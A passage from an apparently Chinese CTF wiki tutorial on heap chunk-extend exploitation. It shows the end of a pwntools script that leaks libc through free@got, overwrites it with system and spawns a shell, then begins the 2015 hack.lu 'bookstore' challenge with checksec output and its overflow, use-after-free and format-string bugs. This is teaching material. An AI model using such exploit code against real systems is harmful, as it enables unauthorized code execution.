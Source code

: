```python
delete(1)
# new heap 1's struct will point to old heap 1's content, size 0x20
# new heap 1's content will point to old heap 1's struct, size 0x30
# that is to say we can overwrite new heap 1's struct
# here we overwrite its heap content pointer to free@got
create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
# leak freeaddr
show(1)
r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
system_addr = libc_base + libc.symbols['system']
#gdb.attach(r)
# overwrite free@got with system addr
edit(1, p64(system_addr))
# trigger system("/bin/sh")
delete(0)
r.interactive()
```

## 2015 hacklu bookstore
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/chunk-extend-shrink/2015_hacklu_bookstore)

### 基本信息

```shell
➜  2015_hacklu_bookstore git:(master) file books    
books: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3a15f5a8e83e55c535d220473fa76c314d26b124, stripped
➜  2015_hacklu_bookstore git:(master) checksec books    
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/chunk_extend_shrink/2015_hacklu_bookstore/books'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出该程序是动态链接的 64 位程序，主要开启了 Canary 与 NX 保护。

### 基本功能

该程序的主要功能是订书，具体如下

- 最多可以订购两本书。
- 根据编号来选择订购第几本书，可以为每本书添加对应的名字。然而在添加名字处出现了任意长度堆溢出的漏洞。
- 根据编号来删除 order，但是这里只是单纯地 free 掉，并没有置为 NULL，因此会出现 use after free 的漏洞。
- 提交订单，将两本书的名字合在一起。这里由于上面堆溢出的问题，这里也会出现堆溢出的漏洞。
- 此外，在程序退出之前存在一个**格式化字符串漏洞**。
